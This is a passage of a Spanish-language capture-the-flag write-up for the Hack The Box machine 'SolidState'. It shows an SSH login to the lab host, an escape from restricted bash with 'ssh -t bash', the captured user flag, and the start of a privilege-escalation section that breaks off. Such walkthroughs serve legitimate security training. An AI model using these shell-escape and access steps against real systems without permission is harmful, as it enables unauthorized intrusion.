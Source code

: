 ```bash
Respectfully,
James
```

Las credenciales son validas, pero al conectarnos vemos que estamos limitados por una restricted bash.

```bash
❯ ssh mindy@10.10.10.51
The authenticity of host '10.10.10.51 (10.10.10.51)' can't be established.
ECDSA key fingerprint is SHA256:njQxYC21MJdcSfcgKOpfTedDAXx50SYVGPCfChsGwI0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.51' (ECDSA) to the list of known hosts.
mindy@10.10.10.51's password: 
Linux solidstate 4.9.0-3-686-pae #1 SMP Debian 4.9.30-2+deb9u3 (2017-08-06) i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Aug 22 14:00:02 2017 from 192.168.11.142
mindy@solidstate:~$ 
mindy@solidstate:~$ whoami
-rbash: whoami: command not found
mindy@solidstate:~$
```

Ahora como podemos bypasear la `restricted bash`, pues es muy sencillo; podemos usar como parametro `-t bash` y de ejecutarse un docker en la maquina nos otorgara una sesión interactiva dentro del contenedor omitiendo las restricciones.


Haciendo uso de lo mencionado, podemos volver a conectarnos y visualizar la primera flag `user.txt`.

```bash
❯ ssh mindy@10.10.10.51 -t bash
mindy@10.10.10.51's password: 
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ 
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ whoami
mindy
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ ls
bin  user.txt
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ cat user.txt 
5aadb8206e94c4471346a863bf006a4a
```

## ELEVACION DE PRIVILEGIOS [#](#escalada-de-privilegios) {#escalada-de-privilegios}


Enumarando el sistema no encontramos información interesante como archivos suid o privilegios de nuestro usuario. Por ello vamos a crearnos un `script` en bash que nos permita ver tareas que se esten ejecutando en el sistema a intevalos regulares de tiempo al que llamaremos `procmon.sh`.

